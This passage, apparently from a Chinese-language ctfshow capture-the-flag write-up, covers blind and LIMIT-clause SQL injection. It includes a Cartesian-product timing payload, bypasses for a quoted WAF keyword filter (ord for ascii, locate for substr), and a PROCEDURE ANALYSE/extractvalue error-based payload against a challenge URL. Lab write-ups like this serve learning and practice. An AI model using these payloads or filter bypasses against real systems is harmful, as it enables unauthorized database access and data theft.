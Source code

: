 过滤了 `rlike` ,，可以笛卡尔积。

```
debug=1&ip=if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,1))>1,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)
```

## web220

> ```
> function waf($str){
>      return  preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
> }   
>       
> ```

使用 ord 代替 ascii

使用 locate 代替 substr

使用笛卡尔积

# 六、其他注入

## web221~limit注入

> 查询语句
>
> ```
>   //分页查询
>   $sql = select * from ctfshow_user limit ($page-1)*$limit,$limit;
>       
> ```
>
> 返回逻辑
>
> ```
> //TODO:很安全，不需要过滤
> //拿到数据库名字就算你赢
>       
> ```

在`LIMIT`后面可以跟两个函数，`PROCEDURE` 和 `INTO`，into需要写权限，一般不常见，但是`PROCEDURE`在msyql5.7以后已经弃用，8.0直接删除了。。。

[P牛文章](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)

payload：

```
http://1c1edfaa-f567-4fba-a04f-285c886e937d.chall.ctf.show/api/?page=2&limit=1 procedure  analyse(extractvalue(rand(),concat(0x3a,database())),1)
```
